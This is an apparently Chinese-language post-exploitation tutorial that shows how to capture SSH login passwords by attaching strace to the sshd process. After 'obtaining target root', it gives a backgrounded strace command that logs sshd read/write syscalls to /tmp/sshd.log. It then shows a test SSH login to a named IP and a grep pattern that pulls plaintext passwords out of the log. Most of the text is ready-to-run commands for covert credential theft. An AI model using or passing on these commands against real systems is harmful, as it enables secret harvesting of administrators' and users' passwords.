

# Strace抓取ssh密码

> strace是一个可用于诊断、调试和教学的Linux用户空间跟踪器。我们用它来监控用户空间进程和内核的交互，比如系统调用、信号传递、进程状态变更等。
>
> 在后面抓取用户密码的时候，我们会使用这个软件来监控用户的ssh登录操作。

## 跟踪监听程序

获取到目标root权限后，直接在终端执行如下命令，该命令会监听sshd进程，并将登录过程及信息记录到/tmp/sshd.log文件中

```bash
(strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 32 2> /tmp/sshd.log &)
```

接着模拟管理员ssh登录。输入正确的密码

```bash
ssh root@120.46.62.62
```

## 筛选登录密码

如图所示。

```
grep -E 'read\(6, ".+\\0\\0\\0\\.+"' /tmp/sshd.log
```

